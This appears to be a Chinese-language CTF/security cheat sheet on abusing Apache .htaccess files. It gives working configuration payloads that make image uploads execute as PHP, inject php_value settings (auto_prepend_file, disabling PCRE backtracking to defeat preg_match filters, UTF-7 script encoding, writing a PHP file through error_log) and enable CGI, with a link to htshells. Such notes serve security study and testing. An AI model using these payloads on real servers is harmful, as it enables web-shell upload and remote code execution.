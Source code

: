 # ``.htaccess``文件利用

### 正确解析绕过
  
  ``.htaccess``中出现的无法正常解析的条目时无法生效
  - ``\``换行绕过脏字符或绕WAF
  - 利用XMP图片解析头(``#``刚好是注释符)
    
    ```
    #define width 1
    #define height 1
    ```
  - 利用wbmp文件解析头
    
    ```
    \x00\x00\x8a\x39\x8a\x39
    ```
### 增加使用php解析 (可以类推)

- 文件后缀(.jpg)
  
    ```
    AddType application/x-httpd-php .jpg
    ```
- 的文件
  
    ```
    <FilesMatch "<filename>">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```

### **利用php_value注入php配置**

- 在所有php前后注入恶意php文件
  
    ```
    php_value auto_prepend_file "<FileDir>"
    php_value auto_append_file "<FileDir>"
    ```

- 利用prce参数绕过preg_match
  
    ```
    php_value pcre.backtrack_limit 0
    php_value pcre.jit 0 
    ```

    任意匹配均返回``FALSE``
    
    > https://www.php.net/manual/zh/pcre.configuration.php

- 利用UTF-7编码绕过日志html编码
  
   ```
    php_value zend.multibyte 1
    php_value zend.script_encoding "UTF-7"
   ```
- 利用inclue_path包含恶意文件

  ```
    php_value include_path "/tmp"
  ```
- 利用``error log``写本地文件 (html编码)

    ```
    php_value error_log /tmp/fl3g.php
    php_value error_reporting 32767
    ```
- 强制开启短标签
    
    ```
    php_value short_open_tag 1  
    ```

## CGI 相关

官方文档 https://httpd.apache.org/docs/2.4/howto/htaccess.html#cgi

>Finally, you may wish to use a .htaccess file to permit the execution of CGI programs in a particular directory. This may be implemented with the following configuration:
>```
>Options +ExecCGI
>AddHandler cgi-script cgi pl
>```

## htshell

参考链接 https://github.com/wireghoul/htshells/


## 参考资料

https://www.hacking8.com/MiscSecNotes/htaccess.html#title-9